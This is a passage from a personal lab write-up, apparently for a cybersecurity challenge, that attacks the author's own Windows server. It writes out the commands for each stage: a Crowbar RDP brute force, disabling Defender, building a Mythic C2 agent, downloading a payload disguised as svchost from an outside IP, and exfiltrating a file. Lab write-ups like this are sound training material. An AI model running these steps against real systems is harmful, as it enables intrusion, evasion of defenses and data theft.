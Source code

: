 # Day 21: Mythic Agent Setup
## Objective
In this section, I will learn how to perform a brute-force attack, generate a Mythic agent, and establish C2 (command and control).

## Steps
Firstly, if you remember, we will extract passwords from a file on our Windows server called "passwords.txt." This is for demonstration purposes which is why it's referred to as a "fake" file in the attack diagram. Nonetheless, this will serve as data we will try to exfiltrate from the machine.

This time around, instead of going into the console via Vultr, I'm just going to RDP into the machine. I have no clue why I couldn't figure this out sooner, but here we are! I've learned a lot from this challenge, that's for sure.

<p align="center"><img src="https://i.imgur.com/WugLTVP.png"></p>
<p align="center"><i>Ref 1: Using RDP to connect to our Windows machine to create a file called "passwords.txt" that will serve as our target for the brute force attack we're going to perform!</i></p>
<br>

We're done with the Windows instance for now. Let's go to our Kali machine and start looking at the resources we have on hand.

Kali Linux comes with password dictionaries. We can find them using these commands:

<p align="center"><img src="https://i.imgur.com/mFWVBOH.png"></p>
<p align="center"><i>Ref 2: Preinstalled password dictionaries on Kali.</i></p>
<br>

We're going to be using `rockyou.txt`. As a proof of concept, I will put my Windows machine's password into this text file. I know it's cheating, but since the purpose of this challenge is to learn how to brute force machines and how such attacks work, this is fine for now. As a note, I will only use the top 50 passwords since the actual file is quite large. I used `head -50 rockyou.txt > /home/dsuyu/dsuyu-wordlist.txt` to save those top 50 (+ my Windows password) into the wordlist we'll use for the attack.

We'll be using Crowbar to perform an RDP brute force attack over to our Windows machine. To do this, I used the `crowbar -b rdp -u Administrator -C dsuyu-wordlist.txt -s 155.138.242.206/32` command. `-b` specifies the RDP service, `-u` is the user account, `-C` is the source of our passwords that we want to try to authenticate with, and `-s` specifies the specific IP address I want to use. `/32` means we're only interested in this specific IP address. I won't show the password for now, since somebody seeing the password while I'm still trying to complete the challenge would be problematic, to say the least.

<p align="center"><img src="https://i.imgur.com/M9g2wgK.png"></p>
<p align="center"><i>Ref 3: Crowbar successfully brute-forced the machine.</i></p>
<br>

Now that we have our credentials, we can RDP from our Kali machine by using `xfreerdp`. Running the command `xfreerdp /u:Administrator /p:[password] /v:155.138.242.206:3389`, we can RDP into the machine.

<p align="center"><img src="https://i.imgur.com/8iFtNp0.png"></p>
<p align="center"><i>Ref 4: I've successfully RDP'd into the machine!</i></p>
<br>

Looking at our attack diagram, once we've established a connection, the next step is to do some recon. For example, we can run the command `net user Administrator` to learn more about our privileges. In a real scenario, an attack might compromise an account, say, for example, "Steven," and they would have to run a command like `net user` to figure out what privileges they have or to what group they belong to. 

Once we've done reconnaissance, we can move to Phase 3: Defense Evasion. I'll turn off Windows Defender via the command line. We could also do this the BORING way by going into Settings and turning everything off.

<p align="center"><img src="https://i.imgur.com/ulBvkwF.png"></p>
<p align="center"><i>Ref 5: Disabling real-time monitoring from the command line.</i></p>
<br>

After Phase 3 follows Phase 4: Execution. In Phase 4, we need to create our Mythic agent and payloads. Any configuration needs to be done within the Mythic CLI.

We're going to be using the Apollo agent for our purposes. We can install it using the command `./mythic-cli install github https://github.com/MythicAgents/Apollo.git`. You can find Apollo's documentation [here](https://github.com/MythicAgents/Apollo).

<p align="center"><img src="https://i.imgur.com/MDsXRQa.png"></p>
<p align="center"><i>Ref 6: Apollo now appears within our web GUI under "C2 profiles and payload types."</i></p>
<br>

Now, we can install a C2 profile. What is a C2 profile? A C2 profile provides a way to get messages off the wire and forward them to the Mythic server. In our case, we'll use the HTTP profile.

<p align="center"><img src="https://i.imgur.com/9FGS1kR.png"></p>
<p align="center"><i>Ref 7: Our HTTP C2 profile has been installed.</i></p>
<br>

Now how do we create a payload? Easy, just select the hazard icon at the top and make a new payload. We want the C2 profile to call back to our Mythic server, so we'll modify the callback host to be `http://207.148.3.13`.

<p align="center"><img src="https://i.imgur.com/Wr5zoYm.png"></p>
<p align="center"><i>Ref 8: Configuring our C2 profile.</i></p>
<br>

Now that we've made the payload and it's ready to download, we'll grab that download link and use `wget` to download it to our server.

<p align="center"><img src="https://i.imgur.com/CXR5uKH.png"></p>
<p align="center"><i>Ref 9: I've downloaded the payload onto our Mythic server, and I've renamed it so it looks less conspicuous.</i></p>
<br>

Cool! I made a directory called `1` and moved our new executable into there. Then, I started an HTTP server using Python with the `python3 -m http.server 9999` command on our Mythic server. Now that we're running that HTTP server, we can download the payload executable onto the compromised Windows server from our HTTP server by running `Invoke-WebRequest -Uri http://207.148.3.13:9999/svchost-dsuyu.exe -OutFile "C:\Users\Public\Downloads\svchost-dsuyu.exe"` from Windows PowerShell via our RDP connection to the Windows server.

<p align="center"><img src="https://i.imgur.com/VvBCRh3.png"></p>
<p align="center"><i>Ref 10: Downloading the payload onto our Windows server so we can establish a command and control connection.</i></p>
<br>

In other words, the command downloads the executable from our remote Mythic server. Executing the file means we're now receiving callbacks from our agent to our Mythic server. Effectively, the Windows machine is pwned and it's all over from here. Now, using our web GUI, we can run commands such as `ifconfig`, `whoami`, and most importantly, `download`. We're going to download that `passwords.txt` file we made earlier.

<p align="center"><img src="https://i.imgur.com/fZKlLww.png"></p>
<p align="center"><i>Ref 11: Within our C2 profile configuration, I enabled a few commands that we'd be able to run once we started receiving callbacks. Here, I'm running those commands.</i></p>
<br>

Notably, there were a few ports we had to open to make this all work out. For example, we had to open port 80 on our Mythic server so that the two servers could actually communicate over HTTP. I also allowed port 9999 on our Mythic server. Like before, we have to make firewall rules not only for the Vultr firewalls but also for our server firewalls.

## Summary
In this section, I conducted my own brute force attack using Kali Linux and Crowbar, RDP'd into the compromised Windows server and installed my Mythic agent along with a Mythic server. Using the Mythic server, I was able to run an HTTP server using Python so that I could install the payload from within my Windows server. Once the payload was installed and running, I could use the Mythic web GUI to run commands. I established a command and control connection thanks to the Apollo agent and HTTP C2 profile.

You can read more on C2 profiles [here](https://docs.mythic-c2.net/operational-pieces/c2-profiles).


